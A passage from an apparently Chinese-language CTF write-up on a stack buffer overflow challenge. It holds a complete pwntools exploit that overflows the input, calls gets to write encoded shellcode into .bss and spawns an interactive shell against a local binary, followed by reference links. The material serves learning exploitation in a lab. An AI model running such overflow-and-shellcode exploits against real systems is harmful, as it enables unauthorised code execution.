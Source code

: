 这里的 `\0` 也就是 `\x00`，而如果输入的是字符 `0`，转为十六进制后为 `\x30`，将不能满足条件，无法 getshell。

这题附上梅大佬的 payload，这里可以放 shellcode：

```python
from pwn import *
offset=116
r=process("3-13")
elf=ELF("3-13")
bss=elf.bss()
get=elf.symbols['gets']
shell="\xeb\x1b\x5f\x31\xc0\x6a\x53\x6a\x18\x59\x49\x5b\x8a\x04\x0f\xf6\xd3\x30\xd8\x88\x04\x0f\x50\x85\xc9\x75\xef\xeb\x05\xe8\xe0\xff\xff\xff\x1c\x7f\xc5\xf9\xbe\xa3\xe4\xff\xb8\xff\xb2\xf4\x1f\x95\x4e\xfe\x25\x97\x93\x30\xb6\x39\xb2\x2c"
payload="A"*offset+p32(get)+p32(bss)+p32(bss)
r.sendline(payload)
r.sendline(shell)
r.sendline('/bin/sh')
r.interactive()
```

# 参考网站

https://zh.wikipedia.org/wiki/%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA
https://paper.seebug.org/481/
https://bbs.pediy.com/thread-212691.htm
http://blog.xiyoulinux.org/detail.jsp?id=1965
http://www.cnitblog.com/houcy/archive/2013/03/16/87075.html
https://blog.csdn.net/qq_29343201/article/details/51337025
http://www.91ri.org/14382.html
